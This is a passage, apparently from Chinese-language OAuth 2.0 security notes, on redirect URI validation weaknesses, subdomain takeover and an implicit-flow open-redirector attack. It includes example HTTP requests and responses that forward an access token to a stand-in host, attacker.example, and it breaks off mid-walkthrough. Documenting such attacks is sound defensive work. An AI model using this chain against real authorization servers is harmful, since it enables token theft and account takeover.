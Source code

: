     1. 用户会看到由 AS 下发的授权页面，并且该页面显示为合法的且用户已知的 Client 授权。用户不认识重定向 URI，也无法感知到重定向 URI 指向 Attacker。
    1. 用户授权后，Attacker 会拿到授权码 code。

对于 Public Client，Attacker 将会直接拿到用户的 Token。

对于 Confidential Client，Attacker 会进一步使用 Code 注入攻击，请参考 [Authorization Code Injection](#authorization-code-injection)。

即便是 AS 限制了域名中的 `*` 只能匹配域名，其实仍然可能存在问题：

>  If an attacker manages to establish a host or subdomain in somesite.example, he can impersonate the legitimate client. This could be caused, for example, by a subdomain takeover attack subdomaintakeover, where an outdated CNAME record (say, external-service.somesite.example) points to an external DNS name that does no longer exist (say, customer-abc.service.example) and can be taken over by an attacker (e.g., by registering as customer-abc with the external service).

**隐式流程的重定向 URI 验证攻击**

上述攻击同样适用于隐式流程，即如果 Attacker 可以使得授权响应发送到 Attacker 控制的 URI，则 Attacker 可以从 Fragment 中拿到 Access Token。

对于隐式流程，用户则可能会进一步受到攻击，该攻击依赖于一个事实和一个前提：

- 一个事实：如果重定向的 Location 中不包含 Fragment，则会使用原始请求中的 Fragment。
- 一个前提，Client 是一个 Open Redirector，请参考 [Open Redirection](#open-redirection)。
  - 即 Client 公开了一个 Redirector，可以允许重定向到任何 URL。
  - 例如 Client 允许 `https://client.somesite.example/cb?redirect_to=https://attacker.example/cb` 重定向到 `https://attacker.example/cb`。

攻击流程 如下：

1. Client 注册的 Redirect URL Pattern 是 `https://client.somesite.example/cb?*`。
1. Attacker 诱惑用户打开其特制的页面：`https://www.evil.example`。
1. 该 URL 向 AS 发起授权请求，并且使用的 Client ID 来自于合法的 Client。

   ```text
   GET /authorize?response_type=token&state=9ad67f13
        &client_id=s6BhdRkqt3
        &redirect_uri=https%3A%2F%2Fclient.somesite.example
                      %2Fcb%26redirect_to%253Dhttps%253A%252F%252Fattacker.example%252F HTTP/1.1
   Host: server.somesite.example
   ```

1. AS 在进行授权请求校验后，将 Access Token 重定向至 Redirect URI：

   ```text
   HTTP/1.1 303 See Other
   Location: https://client.somesite.example/cb?
               redirect_to%3Dhttps%3A%2F%2Fattacker.example%2Fcb
               #access_token=2YotnFZFEjr1zCsicMWpAA&...
   ```

1. 因为 Open Redirector 的存在，Client 进一步重定向：

   ```text
   HTTP/1.1 303 See Other
   Location: https://attacker.example/
   ```

1. 因为 Location 中没有包含 Fragment，这导致使用原始请求中的 Fragment，所以实际的重定向请求是：
